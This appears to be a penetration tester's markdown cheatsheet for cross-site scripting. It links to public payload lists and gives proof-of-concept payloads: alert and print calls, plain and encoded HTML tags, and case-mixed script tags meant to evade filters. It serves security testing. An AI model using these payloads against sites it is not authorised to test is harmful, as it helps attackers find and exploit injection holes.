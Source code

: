 # XSS
**Useful cheatsheet [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)**
**Comprehensive payload list [here](https://github.com/payloadbox/xss-payload-list)**
## POC
- `alert(document.location)`
- `print()`
## Unescaped Tags -> [Script Tags](XSS.md#Script%20Tags)
- `<b>STUFF</b>`
- `<b>STUFF`
### Encodings
**Worth double encoding**
- `%3cb%3eSTUFF%3c%2fb%3e`
- `&#x3c;b&#x3e;STUFF&#x3c;&#x2f;b&#x3e;`

## Tag XSS
### Script
- `<script>print()</script>`
- `<SrCiPt>print()</SCriPT>`


